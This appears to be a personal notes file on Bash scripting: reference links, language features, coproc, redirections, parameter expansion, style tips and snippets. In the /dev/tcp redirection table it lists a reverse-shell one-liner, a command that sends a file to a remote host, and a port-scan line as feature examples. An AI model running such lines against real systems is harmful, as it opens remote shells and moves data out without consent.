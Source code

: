 - wiki https://en.wikipedia.org/wiki/Bash_(Unix_shell)
  - Author: Brian Fox
  - 1989-

- article order of startup https://blog.flowblok.id.au/2013-02/shell-startup-scripts.html

- PS1's
  - ";"
    - allows you to copy multiple commands (also on rc shell)
    - PS1='%(?.%(!.#.;).%F{6}%B;%b%f) '

- https://en.wikipedia.org/wiki/ANSI_escape_code
  https://www.ele.uva.es/~jesus/lpcVT100/term.html
- https://github.com/dylanaraps/writing-a-tui-in-bash

- article 18 http://ratfactor.com/slackware/pkgblog/bash
- article 24
  https://mtlynch.io/zig-extraneous-build/#my-mental-model-of-bash-pipelines-is-wrong
  https://hackaday.com/2024/03/28/is-your-mental-model-of-bash-pipelines-wrong/
- article https://muhammadraza.me/2023/webscraping-in-bash/
- article https://muhammadraza.me/2023/shell-functions/
- article https://garnix.io/blog/contextual-cli
- https://www.commandlinefu.com/
- https://command-not-found.com/
- https://www.mulle-kybernetik.com/modern-bash-scripting/
- https://github.com/xwmx/bash-boilerplate
- https://github.com/dylanaraps/pure-sh-bible
- https://github.com/dylanaraps/pure-bash-bible
- https://github.com/mrzool/bash-sensible
- https://github.com/joseluisq/awesome-bash-commands
- https://lobste.rs/s/iofste/please_stop_writing_shell_scripts
- Why doesn't set -e (or set -o errexit, or trap ERR) do what I expected?
  http://mywiki.wooledge.org/BashFAQ/105
- shfmt
  https://github.com/mvdan/sh
  (fork?) https://github.com/patrickvane/shfmt

- https://wizardzines.com/comics/bash-debugging/
  https://news.ycombinator.com/item?id=39568728

- LLM
  https://hackaday.com/2023/12/29/using-local-ai-on-the-command-line-to-rename-images-and-more/
  https://justine.lol/oneliners/
  https://gist.github.com/jart/bd2f603aefe6ac8004e6b709223881c0

* Language

- "Destructuring" with *read* https://stackoverflow.com/questions/1952404/linux-bash-multiple-variable-assignment

- exec CMD
  - make cmd replace the current shell, no new process is created

- Process substitution
  - careful of not forgetting an "<" in "cmd < <(cmd2)"
  - "cmd | tee >(cmd2) >(cmd3)" - sends "cmd" output to both "cmd2" and "cmd3" stdin https://tecadmin.net/bash-process-substitution/
  - bash won't wait for cmd2 or cmd3 to finish to exit
    - detailed explaination https://unix.stackexchange.com/questions/403783/the-process-substitution-output-is-out-of-the-order
    - you can hack together a ~work group~ type of thing with ~mkfifo~ https://unix.stackexchange.com/questions/351780/wait-for-bash-process-substitution-subshells

- Brace Expansion
  - support integer zero padding
  - supports a step {FROM..TO..STEP}
  - you can use an "enumeration" on a "for loop" using "for i in {this,that,theother}"

- commands run in a pipeline run at the same time
  https://mtlynch.io/zig-extraneous-build/#my-mental-model-of-bash-pipelines-is-wrong

- << EOF here document
  <<- EOF here document, ignore leading tabs

- https://zwischenzugs.com/2018/10/12/eleven-bash-tips-you-might-want-to-know/
  https://zwischenzugs.com/2020/05/09/some-relatively-obscure-bash-tips/

- Bash does NOT support natively floating point numbers

- jobs/bg/fg/%N

** Coproc

- commands
  - simple: sequence of words
  - compound: shell constructs

- manual https://www.gnu.org/software/bash/manual/html_node/Coprocesses.html
  - coproc [NAME] cmd [redirections]
    - like "cmd &", runs async in a subshell
    - communication happens over pipes
      - NAME defaults to COPROC if none given
      - stdout in NAME[0]
      - stdin  in NAME[1]
    - "wait"

- example: progress bar https://gist.github.com/drewchapin/f43ab1a10367b1bfa53c55fe612d4245
- 10 https://www.linuxjournal.com/content/bash-co-processes
- 11 https://www.zsh.org/mla/users/2011/msg00095.html
- 18 https://www.linuxjournal.com/content/investigating-some-unexpected-bash-coproc-behavior
- 19 https://copyconstruct.medium.com/bash-coprocess-2092a93ad912
- 21 https://mbuki-mvuki.org/posts/2021-05-30-memoize-commands-or-bash-functions-with-coprocs/
  - a memoization solutions that works
  - classic solutions won't because =command substitution= $() runs in a subshell

** Types

- array ops
  ${arr[0]}
  ${arr[@]:1:3}  #slicing
  ${arr[@]// /_} # substitute on each element

- string ops
  ${foo:1:10} # slice
  ${#foo}     # length
  ${foo^^}    # uppercase
  ${foo^}     # capitalize
  ${foo/a/b}  # substitute once
  ${foo//a/b} # substitute all

** Redirections

https://tldp.org/LDP/abs/html/io-redirection.html

- append output also to file
  - exec &>> file.txt
  - exec > <(tee file.txt) 2>&1

- <filename cmd1              - alternative to cat pipe
  <filename >outfile cmd1

- Redirection Operators
  - "|&" https://stackoverflow.com/questions/35917552/what-does-the-syntax-mean-in-shell-language
  - "<>" https://bash.cyberciti.biz/guide/Opening_the_file_descriptors_for_reading_and_writing
  |-------------+------------------------------------------------|
  | ¦&          | shorthand for "2>&1 ¦"                         |
  | [n]<>word   | opens fd n at word, for r/w                    |
  | [n]<&word   | duplicates fd                                  |
  | [n]>&word   | duplicates fd                                  |
  | [n]<&-      | closes fd n (or 0)                             |
  | [n]<&digit- | moves fd digit to n (or 0), closes digit after |
  | [n]>&digit- | moves fd digit to n (or 1)                     |
  |-------------+------------------------------------------------|

- feature: open client socket
  - https://medium.com/@stefanos.kalandaridis/bash-ing-your-network-f7069ab7c5f4
  - /dev/tcp/host/port
    /dev/udp/host/port
  - Examples:
    |---------------+-----------------------------------------------------------------------------------|
    | port scanning | timeout 0.5 echo < /dev/tcp/127.0.0.1/777/ && echo "open" ¦¦ echo "closed"        |
    | read stream   | cat < /dev/tcp/time.nist.gov/13                                                   |
    | receive file  | cat < /dev/tcp/remote.ip/1234 > file.txt                                          |
    | send file     | cat file.txt > /dev/tcp/remote.ip/4321                                            |
    | reverse shell | bash -c 'bash -i >& /dev/tcp/remote.ip/7777 0>&1'                                 |
    |---------------+-----------------------------------------------------------------------------------|
    | http request  | exec 5<>/dev/tcp/www.google.com/80                                                |
    |               | >&5 echo -e "GET / HTTP/1.1\r\nHost: www.google.com\r\nConnection: close\r\n\r\n" |
    |               | <&5 cat                                                                           |
    |---------------+-----------------------------------------------------------------------------------|
    * could have used "here documents" for the GET, using cat and >&5

** Special Parameters

|----+---------------------------|
| $_ | argument of last command  |
| $? | exit code of last command |
| $$ | self PID                  |
| $! | recent bg PID             |
|----+---------------------------|
| $# | number of arguments       |
| $0 | name of the script        |
| $* |                           |
| $@ |                           |
|----+---------------------------|

** select

- Creates an interactive selection menu

#+begin_src bash
  select var in {a..z}; do
    echo $REPLY $var
  done
  # ?# 2
  # 2 b
#+end_src

** getopt(s)

https://en.wikipedia.org/wiki/Getopts
- 1986-
- based on C's getopt

#+begin_src bash
  while getopts ":hf:" arg; do
      case $arg in
          h)  echo "help"; exit 1 ;;
          f)  echo "argument given: $OPTARG" ;;
          :)  echo "Mandatory argument missing for given flag $OPTARG"; exit 1;;
          \?) echo "Unknown flag";  exit 1;;
      esac
  done
  shift $((OPTIND - 1)) # allow positional arguments
#+end_src

** Arithmetic Evaluation $(())

- Equivalent to "let expressions"
  let arg [arg ...]

- "Evaluation is done in fixed-width *integers* with no check for overflow,
   though division by 0 is trapped and flaged as an error."
  - aka NOT floats

- "A shell variable that is null or unset evaluates to 0"

*** Operators
From man
|-----------------------------------+---------------------------------------------|
| id++ id--                         | variable post-increment and  post-decrement |
| ++id --id                         | variable pre-increment and pre-decrement    |
| + -                               | unary minus and plus                        |
| **                                | exponentiation                              |
| * / %                             | multiplication, division, remainder         |
| + -                               | addition, subtraction                       |
|-----------------------------------+---------------------------------------------|
| !                                 | logical negation                            |
| <= >= < >                         | comparison                                  |
| == !=                             | equality and inequality                     |
| &&                                | logical AND                                 |
| ¦¦                                | logical OR                                  |
|-----------------------------------+---------------------------------------------|
| expr?expr:expr                    | conditional operator                        |
| = *= /= %= += -= <<= >>= &= ^= ¦= | assignment                                  |
| expr1 , expr2                     | comma                                       |
|-----------------------------------+---------------------------------------------|
| ~                                 | bitwise negation                            |
| << >>                             | bitwise left and right shifts               |
| &                                 | bitwise AND                                 |
| ^                                 | bitwise exclusive OR                        |
| ¦                                 | bitwise OR                                  |
|-----------------------------------+---------------------------------------------|


* Tutorial: Style https://google.github.io/styleguide/shellguide.html

  - Don’t brace-delimit single character shell specials / positional parameters,
    unless strictly necessary or avoiding deep confusion.
  - Indentation: Indent 2 spaces. No tabs.
  - Comment at the header
    #+begin_src bash
      #!/bin/bash
      #
      # Perform hot backups of Oracle databases.
    #+end_src
  - Redirect errors to STDERR
    #+begin_src bash
      err() {
        echo "[$(date +'%Y-%m-%dT%H:%M:%S%z')]: $*" >&2
      }
    #+end_src
  - Do not put an extension on executables, only on libraries
  - Guidelines
    - When is ok
      * mostly calling other utilities
      * relatively little data manipulation
    - When NOT use
      * Scripts more than 100 lines long
      * Using non-straightfoward control flow logic
      * if performance matters

* Changelog

table of changes https://mywiki.wooledge.org/BashFAQ/061
5.0 discussion https://news.ycombinator.com/item?id=18852523

- 3.0 (2004)
  - regex? =~
- 4.0 (2009)
  - coproc
  - associative array
  - &>> and |&
  - mapfile/readarray
- 4.4 (2016)
  - mapfile/readarray -d
  - ${var@operator} "parameter transformation"
    - U uppercase
    - u capitalize
    - Q single quote
- 5.0 (2019) https://lists.gnu.org/archive/html/bug-bash/2019-01/msg00063.html
  - EPOCHSECONDS / EPOCHREALTIME
  - BASH_ARGV0 (same as $0)
- 5.1 (2020)
  - SRANDOM (32 bit random)

* Codebases

- maze solver https://gist.github.com/xsot/99a8a4304660916455ba2c2c774e623a
- web server https://github.com/dzove855/Bash-web-server
- web framework https://github.com/emasaka/shails
- web framework
  https://github.com/cgsdev0/bash-stack/
  https://bashsta.cc/0-index
- minecraft server
  https://sdomi.pl/weblog/15-witchcraft-minecraft-server-in-bash/
  https://github.com/sdomi/witchcraft
  https://news.ycombinator.com/item?id=30347501

* Snippets

- Example: concatenation
  $ cut -d: -f2 studentlist.txt | xargs printf "%s@example.com"

- Common lines between files
  $ grep -Fxf file1 file2
  $ grep --fixed-strings --line-regexp --file file1 file2

- Not common lines
  $ grep -vFxf file1 file2

#+NAME: scramble string
#+begin_src bash
echo -n "${1}" | fold -w1 | sort -R | xargs -ILETTER echo -n LETTER

echo -n "${1}" | while read -n1 -r letter; do
     echo $letter
done | sort -R | xargs -ILETTER echo -n LETTER
#+end_src

#+begin_src bash
  die() { echo $1 >&2; exit 1; } # some_command || die "oh no!"
#+end_src

#+begin_src bash
  for cmd in sgr0 bold; do
    tput $cmd
    for i in $(seq 0 7); do
      for j in $(seq 0 7); do
        tput setaf $i; tput setab $j; echo -n " $i,$j "
      done
      tput sgr0; echo; tput $cmd
    done
  done
#+end_src

* 14 Video: Introduction to Advanced Bash Usage | James Pannacciulli

@ OSCON 2014
https://www.youtube.com/watch?v=uqHjc7hlqd0

- Bash 3/4
- Return values: 0-255

- indirect expansion
  param="parade"; parade="long"
  ${!param} # long

- list names/variables/functions? matching prefix
  ${!pa*} or ${!pa@}

- Parameter Expansion: Conditionals (24:43)
  (check if variable is unset, empty or non-empty)
|--------------------+--------------+--------------+-------------|
|                    | unset param  | param=""     | param="gnu" |
|--------------------+--------------+--------------+-------------|
| ${param-default}   | default      | -            | gnu         |
| ${param=default}   | name=default | -            | gnu         |
| ${param+alternate} | -            | alternate    | alternate   |
| ${param?error}     | error        | -            | gnu         |
|--------------------+--------------+--------------+-------------|
| empty as unseat    | ..           | ..           | ..          |
|--------------------+--------------+--------------+-------------|
| ${param:-default   | default      | default      | gnu         |
| ${param:=default   | name=default | name=default | gnu         |
| ${param:+alternate | -            | -            | alternate   |
| ${param:?error}    | error        | error        | gnu         |
|--------------------+--------------+--------------+-------------|

- example: brace expansion
  > echo bash{,{d,s},ful{,ly,ness},ing}
  bash bashed bashes bashful bashfully bashfulness bashing
  > man man
  > man{,}
  > echo {1..5}{0,5}% # BASH 3
  10% 15% 20% 25% 30% 35% 40% 45% 50% 55%
  > echo {10..55..5}% # BASH 4
  10% 15% 20% 25% 30% 35% 40% 45% 50% 55%

- You don't need {} to define a function
  #+begin_src bash
    words () # for is the compound command
    for word # with the missing "in" it reads from STDIN
    do
        echo "$word"
    done
  #+end_src

- define and then call, being memtop a custom function defined by the user
  > $ sudo bahs -c "$(declare -f memtop); memtop"
